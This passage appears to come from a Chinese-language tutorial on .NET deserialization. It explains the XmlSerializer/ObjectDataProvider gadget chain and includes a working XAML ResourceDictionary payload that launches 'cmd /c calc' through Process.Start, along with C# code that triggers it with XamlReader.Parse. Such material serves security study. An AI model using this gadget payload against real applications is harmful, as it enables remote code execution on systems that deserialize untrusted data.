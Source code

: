 在前面可以发现，Evil函数是我自定义的一个类的恶意方法，虽然我可以通过ExpandedWrapper包装ObjectDataProvider扩展其属性调用到任意方法了，但是要让这样一条链可以利用的话，有下面两种方法

- 第一种是找到一个类能够序列化，将其作为ExpandedWrapper的TExpandedElement，并且这个类还有Process的特性能够用来进行命令执行
- 第二种就是在原先的XmlSerializer->ObjectDataProvider->Process中找到一个跳板，最好是可以执行命令的

最后XmlSerializer链的解决方法就是第二种

ResourceDictionary又称资源字典，使用xaml语法，它本身支持这样去执行命令

```
<ResourceDictionary 
                    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                    xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
                    xmlns:b="clr-namespace:System;assembly=mscorlib" 
                    xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <b:String>cmd</b:String>
            <b:String>/c calc</b:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

1. xmlns:c 引用了System.Diagnostics命名空间起别名为c（Process全名为System.Diagnostics.Process）
2. d:Key="" 起别名为空，在xaml语法中，Key这个键值必须有。
3. ObjectType表示对象类型
4. d:Type 等同于typeof()
5. MethodName是ObjectDataProvider的属性，传递一个Start等于调用Start方法。
6. c:Process 等同于System.Diagnostics.Process

来解析一下这个xaml

```c#
class Program
{
    static void Main(string[] args)
    {
        string xaml = "<ResourceDictionary \n                    xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" \n                    xmlns:d=\"http://schemas.microsoft.com/winfx/2006/xaml\" \n                    xmlns:b=\"clr-namespace:System;assembly=mscorlib\" \n                    xmlns:c=\"clr-namespace:System.Diagnostics;assembly=system\">\n    <ObjectDataProvider d:Key=\"\" ObjectType=\"{d:Type c:Process}\" MethodName=\"Start\">\n        <ObjectDataProvider.MethodParameters>\n            <b:String>cmd</b:String>\n            <b:String>/c calc</b:String>\n        </ObjectDataProvider.MethodParameters>\n    </ObjectDataProvider>\n</ResourceDictionary>";
        XamlReader.Parse(xaml);
    }
}
```
